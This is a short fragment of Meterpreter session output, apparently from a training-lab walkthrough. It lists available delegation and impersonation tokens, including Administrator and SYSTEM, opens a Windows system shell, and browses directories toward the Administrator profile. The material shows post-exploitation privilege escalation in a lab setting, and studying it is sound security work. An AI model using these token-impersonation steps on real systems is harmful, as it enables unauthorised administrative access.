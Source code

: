 ```
Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\NETWORK SERVICE

meterpreter > shell
Process 1260 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>cd C:\\
cd C:\\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI
07/18/2023  09:17 AM    <DIR>          http-server
05/13/2020  05:58 PM    <DIR>          PerfLogs
11/07/2020  07:47 AM    <DIR>          Program Files
11/07/2020  07:47 AM    <DIR>          Program Files (x86)
11/07/2020  08:15 AM    <DIR>          Users
07/18/2023  09:10 AM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  16,053,456,896 bytes free

C:\>cd Users	
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Users

11/07/2020  08:15 AM    <DIR>          .
11/07/2020  08:15 AM    <DIR>          ..
11/07/2020  07:22 AM    <DIR>          Administrator
12/12/2018  07:45 AM    <DIR>          Public
11/07/2020  08:15 AM    <DIR>          student
               0 File(s)              0 bytes
               5 Dir(s)  16,053,456,896 bytes free

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96
```